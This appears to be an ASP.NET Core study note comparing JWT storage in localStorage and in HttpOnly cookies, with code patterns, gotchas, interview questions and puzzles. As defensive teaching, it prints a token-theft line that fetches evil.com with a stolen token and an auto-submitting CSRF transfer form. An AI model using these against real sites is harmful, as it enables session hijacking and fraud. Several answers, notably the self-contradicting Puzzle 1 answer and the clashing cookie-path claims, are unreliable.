


# 4.150 — Token Storage Security: HttpOnly Cookies vs Authorization Header

## PART 0 — Navigation & Context

```text
ASP.NET Core Domain Hierarchy
├── Authentication
│   ├── 4.135 Cookie Authentication
│   ├── 4.136 JWT Bearer Authentication
│   └── 4.148 Multiple Authentication Schemes
├── Security
│   ├── 4.209 CORS
│   ├── 4.210 CSRF Prevention
│   └── 4.214 XSS Prevention
└── Token Storage Security (4.150) ◄ YOU ARE HERE
    ├── 4.151 IAuthenticationService
    └── 4.152 Multi-Scheme APIs
```

**What you need before this:**
- [[4.135 — Cookie Authentication]] — Understanding how `UseCookieAuthentication` reads the `.AspNetCore.Cookies` payload.
- [[4.136 — JWT Bearer Authentication]] — Understanding how `UseJwtBearer` extracts and validates the token from headers.
- [[4.214 — XSS Prevention]] — Understanding how malicious scripts exfiltrate local storage data.

**What this unlocks after:**
- [[4.152 — Multi-Scheme APIs]] — Implementing dual-auth for SPA (Cookies) and Mobile (Bearer).
- [[4.138 — Refresh Token Pattern]] — Handling token rotation securely in the browser.

**Why this matters to a production engineer at scale:**
Your authentication system is only as secure as the client's ability to protect the token; storing JWTs in `localStorage` makes your API vulnerable to complete session hijacking via XSS, whereas using `HttpOnly` cookies delegates token protection to the browser but introduces CSRF risks that must be explicitly mitigated.

---

## PART 1 — The Core Mental Model

> **The Fundamental Rule**
> **ASP.NET Core's authentication security boundary extends into the client; storing tokens in `localStorage` exposing them to XSS is catastrophic, whereas `HttpOnly` cookies make the token invisible to JavaScript but require strict `SameSite` and Antiforgery token enforcement.**

**The Plain-Language Analogy**
Imagine a high-security office building. If you give an employee a physical badge and tell them to keep it in their wallet (localStorage), anyone who pickpockets them (XSS) can take the badge and enter the building. Alternatively, you can use a biometric scanner where the security guard (the Browser) holds the identity record in a locked vault (HttpOnly Cookie). The guard automatically verifies the identity when the employee walks up to the door. A thief cannot steal the biometric data because they never see it. However, the guard might be tricked into letting someone else in if the employee is forced to walk through the door (CSRF).

**The Taxonomy Diagram**



---

## PART 2 — Deep Mechanics

### 1. The XSS Attack Vector (localStorage)

When developers build a Single Page Application (React/Angular/Vue), the default tutorial pattern is to authenticate, receive a JWT, and store it in `localStorage`. 

// Pipeline position: Client-side execution, prior to any ASP.NET Core middleware.

```javascript
// HTTP wire format (approximate) - The Login Response:
// HTTP/1.1 200 OK
// Content-Type: application/json
// 
// { "token": "eyJhbGci..." }

// Developer's code:
localStorage.setItem('token', response.data.token);
```

**What ASP.NET Core internally does:** Nothing. ASP.NET Core simply returns a JSON body. The vulnerability is entirely client-side. If a single dependency (NPM package) is compromised, or a single input is not sanitized, malicious JavaScript can execute:

```javascript
// The Attacker's code:
fetch('https://evil.com/steal?t=' + localStorage.getItem('token'));
```

**Runtime Cost Label:** Zero server cost, infinite security cost.

### 2. The HttpOnly Cookie Defense

To prevent XSS from stealing the token, the backend must set the token inside an `HttpOnly` cookie. This instructs the browser: *never let JavaScript read this value*.

// Pipeline position: Inside the Authentication endpoint (Login).

```
──► Routing ──► Auth ──► LoginEndpoint (Sets Cookie) ──► Response Writer
```

```http
// HTTP wire format (approximate) - The Secure Login Response:
// HTTP/1.1 200 OK
// Set-Cookie: access_token=eyJhbGci...; HttpOnly; Secure; SameSite=Strict; Path=/
```

**Framework Source Behavior:** ASP.NET Core uses `IResponseCookies.Append` to add the `Set-Cookie` header. When `HttpOnly = true` is set, the browser's `document.cookie` API will completely hide this cookie from client scripts. The browser automatically attaches it to all subsequent requests to the matching domain.

**Runtime Cost Label:** ~200 bytes of header overhead per request.

### 3. The CSRF Vulnerability (Cookie Weakness)

Because the browser *automatically* attaches the cookie to requests matching the domain, an attacker can trick the user into executing a state-changing request.

// Pipeline position: Inside the browser networking stack.

```html
<!-- Attacker's malicious site (evil.com) -->
<form action="https://yourbank.com/api/transfer" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="hidden" name="to" value="AttackerAccount">
</form>
<script>document.forms[0].submit();</script>
```

If the user is logged into `yourbank.com`, the browser blindly attaches the `HttpOnly` cookie. The ASP.NET Core server receives a valid session and executes the transfer. 

**Failure Mode Diagram:**
```
Client clicks link ──► Browser POSTs to API ──► Auth Middleware Validates Cookie ──► (SUCCESS) ──► Endpoint Executes ──► Money Stolen
```

### 4. Mitigating CSRF: SameSite and Antiforgery

ASP.NET Core provides two layers of defense against CSRF when using cookies.
First, the `SameSite` attribute.

```http
// HTTP wire format:
// Set-Cookie: access_token=...; SameSite=Strict
```

If `SameSite=Strict`, the browser will *not* send the cookie if the request originated from a different domain (like `evil.com`). If `SameSite=Lax`, it won't send it on cross-origin POSTs, but will on top-level navigations (GET).

**Framework Source Behavior:** `CookieOptions.SameSite` defaults to `Lax` in ASP.NET Core. 

Second, the Antiforgery Token (`IAntiforgery`). For APIs that cannot use `SameSite=Strict` (e.g., cross-domain SSO), you must use the Synchronizer Token Pattern. The server sends a non-HttpOnly cookie with a CSRF token. The SPA reads this token and sends it as a custom header (`X-CSRF-TOKEN`). 

**Runtime Cost Label:** One extra header validation per request; trivial overhead.

### 5. Backend Extraction: Cookie vs Header

When the request arrives at the ASP.NET Core API, how does the authentication middleware find the JWT?

If using standard `AddJwtBearer`:
```csharp
// ASP.NET Core internally (approximate) inside JwtBearerHandler.cs:
string token = Request.Headers.Authorization.ToString().Replace("Bearer ", "");
```

If using cookies to store the JWT, you must configure the JwtBearer middleware to pull the token from the cookie instead of the header:

```csharp
options.Events = new JwtBearerEvents
{
    OnMessageReceived = context =>
    {
        if (context.Request.Cookies.ContainsKey("access_token"))
        {
            context.Token = context.Request.Cookies["access_token"];
        }
        return Task.CompletedTask;
    }
};
```

**Runtime Cost Label:** ~1 dictionary lookup allocation per request.

---

## PART 3 — Production Code Patterns

### Pattern 1: The SPA-Secure Login Endpoint
Returning a JWT in the body is dangerous for SPAs. This pattern places the JWT directly into an `HttpOnly` cookie.

// ⚠️ WRONG: Returning token in the body
```csharp
app.MapPost("/api/login", (LoginRequest req) => 
{
    var token = GenerateToken(req);
    return Results.Ok(new { Token = token }); // SPA will put this in localStorage
});
```

// ✅ CORRECT: Setting token in HttpOnly cookie
```csharp
app.MapPost("/api/login", (LoginRequest req, HttpContext context) => 
{
    var token = GenerateToken(req); // e.g., a JWT
    
    // Set the JWT inside an HttpOnly, Secure cookie
    context.Response.Cookies.Append("access_token", token, new CookieOptions
    {
        HttpOnly = true,         // Inaccessible to JavaScript
        Secure = true,           // HTTPS only
        SameSite = SameSiteMode.Strict, // Prevent CSRF from external sites
        Expires = DateTimeOffset.UtcNow.AddMinutes(15)
    });

    return Results.Ok(new { Message = "Logged in securely" });
});
```

// HTTP wire format:
```http
HTTP/1.1 200 OK
Set-Cookie: access_token=eyJhbGci...; expires=Wed, 10 Jun 2026 15:55:00 GMT; path=/; secure; samesite=strict; httponly
```

### Pattern 2: Configuring JwtBearer to Read from Cookies
When the SPA sends requests, the browser attaches the cookie. The standard `AddJwtBearer` expects an `Authorization` header. We must intercept the message.

```csharp
builder.Services.AddAuthentication(JwtBearerDefaults.AuthenticationScheme)
    .AddJwtBearer(options =>
    {
        options.TokenValidationParameters = new TokenValidationParameters
        {
            ValidateIssuerSigningKey = true,
            IssuerSigningKey = new SymmetricSecurityKey(key),
            // ... other validations
        };

        // Extract token from cookie instead of Authorization header
        options.Events = new JwtBearerEvents
        {
            OnMessageReceived = context =>
            {
                context.Token = context.Request.Cookies["access_token"];
                return Task.CompletedTask;
            }
        };
    });
```

### Pattern 3: The BFF (Backend-for-Frontend) Pattern
Instead of the SPA handling JWTs at all, a dedicated ASP.NET Core backend handles the OAuth flow, stores the tokens securely in a server-side session cache, and issues a standard encrypted authentication cookie (not a JWT) to the SPA.

```csharp
builder.Services.AddAuthentication(CookieAuthenticationDefaults.AuthenticationScheme)
    .AddCookie(options =>
    {
        options.Cookie.Name = "__Host-spa";
        options.Cookie.HttpOnly = true;
        options.Cookie.SameSite = SameSiteMode.Strict;
        options.Cookie.SecurePolicy = CookieSecurePolicy.Always;
    })
    .AddOpenIdConnect("OIDC", options =>
    {
        // ... OIDC config
        options.SaveTokens = true; // Saves access/refresh tokens in the auth cookie
    });

// Now the SPA only deals with "__Host-spa" cookie, and the backend proxies API requests
// attaching the Bearer token from the secure cookie payload.
```

### Pattern 4: The Logout Endpoint with Cookie Clearing
When using cookies, you cannot rely on the client "deleting" the token from memory. The server must explicitly overwrite the cookie with an expired value.

```csharp
app.MapPost("/api/logout", (HttpContext context) => 
{
    // Overwrite the cookie with an expired date
    context.Response.Cookies.Append("access_token", "", new CookieOptions
    {
        HttpOnly = true,
        Secure = true,
        SameSite = SameSiteMode.Strict,
        Expires = DateTimeOffset.UtcNow.AddDays(-1) // Expire immediately
    });

    return Results.Ok();
});
```

// HTTP wire format:
```http
HTTP/1.1 200 OK
Set-Cookie: access_token=; expires=Tue, 09 Jun 2026 15:55:00 GMT; path=/; secure; samesite=strict; httponly
```

### Pattern 5: Dual Auth Extraction for Mobile and Web
If your API serves both a mobile app (which uses `Authorization: Bearer` securely via Keychain) and a web SPA (which uses HttpOnly cookies), you can configure JwtBearer to accept both.

```csharp
options.Events = new JwtBearerEvents
{
    OnMessageReceived = context =>
    {
        // 1. Try to get from header first (Mobile App)
        var authHeader = context.Request.Headers.Authorization.ToString();
        if (authHeader.StartsWith("Bearer ", StringComparison.OrdinalIgnoreCase))
        {
            // Do nothing, base logic handles this
            return Task.CompletedTask;
        }

        // 2. Fallback to cookie (Web SPA)
        if (context.Request.Cookies.TryGetValue("access_token", out var token))
        {
            context.Token = token;
        }

        return Task.CompletedTask;
    }
};
```

---

## PART 4 — Gotchas & Anti-Patterns

### Gotcha 1: The SameSite=None Trap for Third-Party Cookies

Developers building iframed applications or cross-domain SSO often switch to `SameSite=None` without setting `Secure`, causing the browser to reject the cookie entirely.

// ⚠️ WRONG CODE
```csharp
context.Response.Cookies.Append("access_token", token, new CookieOptions
{
    HttpOnly = true,
    SameSite = SameSiteMode.None // Fails in modern browsers!
});
```

// HTTP consequence (wrong path):
// The browser blocks the cookie. The authentication silently fails. Chrome console shows a warning: "SameSite=None must be Secure".

// ✅ CORRECT CODE
```csharp
context.Response.Cookies.Append("access_token", token, new CookieOptions
{
    HttpOnly = true,
    SameSite = SameSiteMode.None,
    Secure = true // MANDATORY when SameSite is None
});
```

// HTTP consequence (correct path):
// The browser accepts the cookie and attaches it to cross-domain requests.

// WHY: Modern browser security mandates that any cross-origin cookie must be transmitted over HTTPS to prevent man-in-the-middle attacks.

### Gotcha 2: Failing to Mitigate CSRF with SameSite=None

If you set `SameSite=None` to allow cross-domain usage, you have completely removed the primary CSRF protection.

// ⚠️ WRONG CODE
```csharp
// Setting cookie
options.Cookie.SameSite = SameSiteMode.None;
options.Cookie.Secure = true;

// Endpoint with no CSRF protection
app.MapPost("/api/transfer", (TransferRequest req) => ...).RequireAuthorization();
```

// HTTP consequence (wrong path):
// Attacker site POSTs to /api/transfer. Browser includes the cookie. Request executes successfully. Money is transferred.

// ✅ CORRECT CODE
```csharp
// Require Antiforgery for state-changing endpoints
app.MapPost("/api/transfer", (TransferRequest req) => ...)
   .RequireAuthorization()
   .RequireAntiforgery(); // Ensure X-CSRF-TOKEN is provided by the real SPA
```

// HTTP consequence (correct path):
// Attacker site POSTs to /api/transfer. Browser includes the cookie, but attacker cannot read the CSRF token to include in the header. ASP.NET Core returns 400 Bad Request (Antiforgery validation failed).

// WHY: The Antiforgery middleware expects a specific header (`RequestVerificationToken`) which can only be read and sent by JavaScript running on the trusted origin.

### Gotcha 3: Storing Large JWTs in Cookies Exceeding Limits

Developers put massive amounts of claims into a JWT and then store it in an HttpOnly cookie, forgetting that cookies have strict size limits.

// ⚠️ WRONG CODE
```csharp
var claims = new List<Claim> { /* 50 claims, total JWT size 4.5KB */ };
var token = GenerateToken(claims);
context.Response.Cookies.Append("access_token", token, new CookieOptions { HttpOnly = true });
```

// HTTP consequence (wrong path):
// The server sends the `Set-Cookie` header. The browser silently drops it because it exceeds the 4096-byte limit per domain. The user is instantly logged out.

// ✅ CORRECT CODE
```csharp
// Keep the JWT small (under 2KB) by only including essential claims (sub, role, exp)
var claims = new List<Claim> { new Claim(JwtRegisteredClaimNames.Sub, userId) };
var token = GenerateToken(claims);
context.Response.Cookies.Append("access_token", token, new CookieOptions { HttpOnly = true });
```

// HTTP consequence (correct path):
// The token size is ~800 bytes. The browser stores it successfully.

// WHY: Browsers implement RFC 6265, which states that a browser should support at least 4096 bytes per cookie. Exceeding this results in silent truncation or rejection.

### Gotcha 4: Forgetting the Path Scope of the Cookie

If the API is hosted at `/api` but the cookie path defaults to `/api/login`, the token won't be sent to other endpoints.

// ⚠️ WRONG CODE
```csharp
// Inside /api/login endpoint
context.Response.Cookies.Append("token", token, new CookieOptions { HttpOnly = true });
// Defaults to Path = "/api/login"
```

// HTTP consequence (wrong path):
// Client calls `/api/orders`. The browser checks the path. `/api/orders` does not match `/api/login`. Cookie is NOT sent. Request fails with 401 Unauthorized.

// ✅ CORRECT CODE
```csharp
context.Response.Cookies.Append("token", token, new CookieOptions 
{ 
    HttpOnly = true, 
    Path = "/" // Or "/api"
});
```

// HTTP consequence (correct path):
// Client calls `/api/orders`. Browser sends the cookie. Request succeeds with 200 OK.

// WHY: Cookies are path-scoped. If Path is not explicitly set, it defaults to the path of the request that generated it.

### Gotcha 5: Logout Not Clearing the Cookie Due to Domain Mismatch

When attempting to clear the cookie, the domain and path must exactly match how it was set.

// ⚠️ WRONG CODE
```csharp
// Setting the cookie:
context.Response.Cookies.Append("token", t, new CookieOptions { Domain = ".myapp.com" });

// Clearing the cookie later:
context.Response.Cookies.Delete("token"); // Missing domain!
```

// HTTP consequence (wrong path):
// The server sends `Set-Cookie: token=; expires=...`. The browser sees this as a request to clear the cookie for the *exact host*, but the original cookie was set for `.myapp.com`. The original valid cookie remains. The user is still logged in!

// ✅ CORRECT CODE
```csharp
context.Response.Cookies.Delete("token", new CookieOptions { Domain = ".myapp.com" });
```

// HTTP consequence (correct path):
// The browser matches the name and domain, overwrites the value, and the user is securely logged out.

// WHY: The browser's cookie jar uses the tuple of `(Name, Domain, Path)` as the primary key. If any part differs, it creates a new cookie or fails to delete the existing one.

---

## PART 5 — Performance Implications

### Request Pipeline Characteristics

| Scenario | Pipeline Depth | Allocations Per Request | Approx Latency Impact | Recommendation |
|---|---|---|---|---|
| JWT in Authorization Header | Shallow (JwtBearerHandler) | ~2 (string allocs) | < 0.1ms | Optimal for Server-to-Server and Mobile. |
| JWT in HttpOnly Cookie | Shallow (JwtBearerHandler + Event) | ~3 (dict lookup) | < 0.1ms | Optimal for SPAs; negligible overhead. |
| BFF Pattern (Cookie Auth) | Medium (CookieHandler) | ~5 (decryption) | ~0.5ms | Highest security for SPAs, minor crypto cost. |
| Token in localStorage | N/A (Client-side) | 0 server | 0ms | Never use for sensitive SPAs due to XSS. |
| Antiforgery Validation | Medium (AntiforgeryMiddleware) | ~4 (validation) | < 0.2ms | Mandatory if SameSite=None is used. |

### BenchmarkDotNet Code

```csharp
using BenchmarkDotNet.Attributes;
using Microsoft.AspNetCore.Http;
using Microsoft.Extensions.Primitives;

[MemoryDiagnoser]
public class TokenExtractionBenchmark
{
    private DefaultHttpContext _headerContext;
    private DefaultHttpContext _cookieContext;

    [GlobalSetup]
    public void Setup()
    {
        _headerContext = new DefaultHttpContext();
        _headerContext.Request.Headers.Authorization = new StringValues("Bearer eyJhbG...");

        _cookieContext = new DefaultHttpContext();
        _cookieContext.Request.Headers.Cookie = new StringValues("access_token=eyJhbG...");
    }

    [Benchmark(Baseline = true)]
    public string ExtractFromHeader()
    {
        var header = _headerContext.Request.Headers.Authorization.ToString();
        if (header.StartsWith("Bearer "))
        {
            return header.Substring(7);
        }
        return null;
    }

    [Benchmark]
    public string ExtractFromCookie()
    {
        if (_cookieContext.Request.Cookies.TryGetValue("access_token", out var token))
        {
            return token;
        }
        return null;
    }
}

// Expected output (approximate, .NET 8, x64, local):
// Method             | Mean      | Error     | StdDev    | Gen0   | Allocated |
// ------------------ |----------:|----------:|----------:|-------:|----------:|
// ExtractFromHeader  | 15.2 ns   | 0.15 ns   | 0.13 ns   | 0.0064 |      40 B |
// ExtractFromCookie  | 35.8 ns   | 0.35 ns   | 0.31 ns   | 0.0127 |      80 B |
```

**When to Care:** The performance difference between parsing a header and looking up a cookie is measured in nanoseconds. You should never make security architecture decisions (like choosing localStorage over HttpOnly cookies) based on this microscopic performance delta. 
**When this doesn't matter:** Almost always. The cryptographic validation of the JWT takes 99.9% of the auth time; extracting it from a cookie is statistically zero.

---

## PART 6 — Interview Arsenal

### A. The Question Bank

**Question 1:** "We are building a React Single Page Application that consumes our ASP.NET Core API. Where should we store the JWT on the client?"
- **Average Answer:** "You can store it in localStorage so that it's easy to attach as an Authorization header."
- **Why That's Insufficient:** It completely ignores the XSS threat vector, which is the primary concern for SPAs.
- **Great Answer:** "Because SPAs are highly vulnerable to XSS attacks from third-party NPM packages, we should never store the JWT in `localStorage`. Instead, our ASP.NET Core API should issue the JWT inside an `HttpOnly`, `Secure` cookie. This makes the token completely invisible to JavaScript. We would configure our `AddJwtBearer` middleware's `OnMessageReceived` event to extract the token from the cookie instead of the Authorization header. To mitigate the resulting CSRF risk, we will set `SameSite=Strict` on the cookie."

**Question 2:** "If we use an HttpOnly cookie for the token, how do we handle Mobile App clients that don't have a standard browser cookie jar?"
- **Average Answer:** "You would need two different APIs, one for web and one for mobile."
- **Why That's Insufficient:** It shows a lack of understanding of ASP.NET Core's extensible authentication pipeline.
- **Great Answer:** "We don't need separate APIs. In ASP.NET Core, the `JwtBearerHandler` pipeline is highly extensible. Inside the `OnMessageReceived` event, I would write a few lines of code to check the `Authorization` header first. If a `Bearer` token is present, we let the middleware process it normally—this supports our Mobile app which stores the token in the iOS Keychain. If the header is missing, we fallback to checking `Request.Cookies["access_token"]` for our SPA. The pipeline validates the token identically in both cases."

**Question 3:** "What is the BFF pattern, and why might it be better than storing JWTs in HttpOnly cookies for a SPA?"
- **Average Answer:** "BFF stands for Backend-for-Frontend. It acts as a proxy."
- **Why That's Insufficient:** It doesn't explain the security difference regarding token lifecycle and exposure.
- **Great Answer:** "Even with HttpOnly cookies, sending a JWT to the browser exposes the encoded claims, and revoking a stateless JWT is difficult. In the Backend-for-Frontend pattern, the SPA never sees a JWT. An ASP.NET Core proxy handles the OAuth flow, receives the access and refresh tokens, and stores them in distributed cache or an encrypted ASP.NET Core authentication cookie. The SPA only gets a standard, opaque session cookie. When the SPA calls the API through the BFF, the BFF injects the real JWT via YARP or HttpClient. This completely isolates the SPA from token management."

### B. The Trick Questions

**Trick Question:** "If we set `HttpOnly=true` on our JWT cookie, are we completely protected against an attacker executing malicious requests?"
- **The Trap:** Thinking HttpOnly solves all security issues.
- **The Correct Answer:** "No. `HttpOnly` protects against XSS (token theft), but it opens us up to CSRF (Cross-Site Request Forgery). Because the browser automatically attaches the cookie, an attacker can host a malicious form that POSTs to our API. We must implement `SameSite=Strict` on the cookie or use `IAntiforgery` in ASP.NET Core to validate state-changing requests."

**Trick Question:** "We put our 5KB JWT into a cookie with `Domain=.company.com`. Now our users are randomly getting logged out. What's wrong with the ASP.NET Core middleware?"
- **The Trap:** Assuming it's a server-side bug.
- **The Correct Answer:** "It's not the middleware; it's the browser. Browsers implement RFC 6265, which sets a hard limit of 4096 bytes per cookie. A 5KB JWT will be silently rejected or truncated by the browser. You must reduce the claims payload, or use a reference token (BFF pattern) instead of a fat JWT."

### C. Red Flags to Avoid
- 🚩 **"Just sanitize your React inputs to prevent XSS so localStorage is safe."** (XSS comes from compromised dependencies, not just user input. You cannot guarantee 100% XSS immunity in a modern JS app).
- 🚩 **"Cookies are legacy, REST APIs must use Authorization headers."** (REST is an architectural style, not a protocol rule; security dictates the transport mechanism).
- 🚩 **"I'll just encrypt the token in localStorage."** (Where do you put the decryption key? In JavaScript? Then the attacker can read that too).
- 🚩 **"SameSite=None is safe if you use HTTPS."** (SameSite=None requires Secure, but it completely removes CSRF protection).

---

## PART 7 — Decision Framework



---

## PART 8 — Self-Check

### A. Conceptual Questions
1. What is the specific mechanism that makes `localStorage` vulnerable to XSS?
2. Why does `HttpOnly` prevent XSS but not CSRF?
3. How does ASP.NET Core's JwtBearer middleware retrieve the token if it's not in the `Authorization` header?
4. What happens to the HTTP request if `SameSite=Strict` is set, but the user clicks a link to your app from an external email client?
5. Why must `Secure=true` be set if `SameSite=None` is used?
6. What is the maximum safe size for an HTTP Cookie?
7. In a dual-auth setup, what event must be overridden to support both headers and cookies?
8. Why is it impossible to clear an HttpOnly cookie using client-side JavaScript?

### B. Code Puzzles

**Puzzle 1: The Missing Token**
```csharp
app.MapGet("/api/data", () => "Secret").RequireAuthorization();

options.Events = new JwtBearerEvents {
    OnMessageReceived = context => {
        context.Token = context.Request.Cookies["auth"];
        return Task.CompletedTask;
    }
};
```
*Scenario:* The cookie is successfully set in the browser. The user calls `/api/data`, but receives a 401 Unauthorized. The token is valid. Where is the bug?
<details>
<summary>Answer</summary>
The middleware extracts the token, but does not tell the underlying logic to stop looking at the header. Furthermore, the property is `context.Token`. If the cookie is not named exactly `"auth"`, it will be null. But the real bug is that `context.Token` is correctly populated, but if the default `Authorization` header contains garbage, it might overwrite or fail validation. Actually, setting `context.Token` is sufficient. The 401 is likely because the cookie wasn't sent by the browser due to path or domain mismatch, OR the cookie name in `Set-Cookie` didn't match `"auth"`.
*HTTP consequence:* 401 Unauthorized with no validation exception, because no token was extracted.
</details>

**Puzzle 2: The Logout Failure**
```csharp
app.MapPost("/api/logout", (HttpContext ctx) => {
    ctx.Response.Cookies.Delete("access_token");
    return Results.Ok();
});
```
*Scenario:* The token was originally set with `Path=/api`. The user hits `/api/logout`, but on their next request to `/api/data`, they are still logged in. Why?
<details>
<summary>Answer</summary>
The `Delete` method only sets an expired cookie for the default path (usually `/`). Because the original cookie was scoped to `Path=/api`, the browser now has two cookies: one expired at `/`, and one still valid at `/api`. 
*HTTP consequence:* The browser continues to send the valid `/api` cookie. To fix: `ctx.Response.Cookies.Delete("access_token", new CookieOptions { Path = "/api" });`
</details>

**Puzzle 3: The Silent CSRF Bypass**
```csharp
context.Response.Cookies.Append("token", t, new CookieOptions { 
    HttpOnly = true, SameSite = SameSiteMode.Lax 
});
app.MapPost("/api/delete-account", () => ...).RequireAuthorization();
```
*Scenario:* An attacker tricks the user into submitting a cross-origin POST request from an iframe. Does the account get deleted?
<details>
<summary>Answer</summary>
No. `SameSite=Lax` explicitly prevents the browser from sending the cookie on cross-origin POST requests. The request will reach ASP.NET Core without the cookie, resulting in a 401 Unauthorized. If the endpoint was a GET request, the cookie *would* be sent, which is why state-changing operations must never be GET requests.
</details>

**Puzzle 4: The Extensible Pipeline**
```csharp
// ⚠️ WRONG CODE
options.Events = new JwtBearerEvents {
    OnMessageReceived = context => {
        var token = context.Request.Cookies["token"];
        context.Request.Headers.Authorization = $"Bearer {token}";
        return Task.CompletedTask;
    }
};
```
*Scenario:* A developer writes this to support cookies. Why is modifying the Request Header directly an anti-pattern?
<details>
<summary>Answer</summary>
While it technically works, mutating the incoming `HttpRequest` headers can cause severe side-effects for downstream middleware (like logging, proxying, or audit filters) that expect the request to be immutable. 
*Correct approach:* Assign to `context.Token = token;` which is exactly what the `MessageReceivedContext` is designed for.
</details>

---

## PART 9 — Connections & Resources

### A. Related Topics Table

| Topic | Why It Connects |
|---|---|
| [[4.135 — Cookie Authentication]] | Explains how standard ASP.NET Core Identity uses HttpOnly cookies natively without JWTs. |
| [[4.136 — JWT Bearer Authentication]] | Details the actual cryptographic validation pipeline that runs after the token is extracted. |
| [[4.214 — XSS Prevention]] | Details how malicious scripts get into SPAs in the first place, necessitating HttpOnly. |
| [[4.210 — CSRF - Antiforgery]] | Explains the `IAntiforgery` service required if you use `SameSite=None`. |

### B. Books

| Book | Chapters | Why These Chapters |
|---|---|---|
| ASP.NET Core in Action, 3rd Ed (Andrew Lock) | Chapter 15: Authentication | Covers the JwtBearer configuration and pipeline extension points. |
| OAuth 2 in Action (Justin Richer) | Chapter 8: Common client vulnerabilities | Deep dive into token theft, XSS, and storage security. |

### C. Essential Articles & Docs
- [Microsoft Docs: Prevent Cross-Site Request Forgery (XSRF/CSRF)](https://learn.microsoft.com/en-us/aspnet/core/security/anti-request-forgery)
- [Microsoft Docs: SameSite Cookies in ASP.NET Core](https://learn.microsoft.com/en-us/aspnet/core/security/samesite)
- [OWASP: HTML5 Security Cheat Sheet - Local Storage](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#local-storage)
- [RFC 6265: HTTP State Management Mechanism](https://datatracker.ietf.org/doc/html/rfc6265)

> [!NOTE]
> **Template Meta-Note**
> Part 0: Context & Prerequisites. Part 1: Core Mental Model. Part 2: Deep Mechanics & Pipeline. Part 3: Production Code. Part 4: Gotchas. Part 5: Performance. Part 6: Interview Arsenal. Part 7: Decision Framework. Part 8: Puzzles. Part 9: Resources.
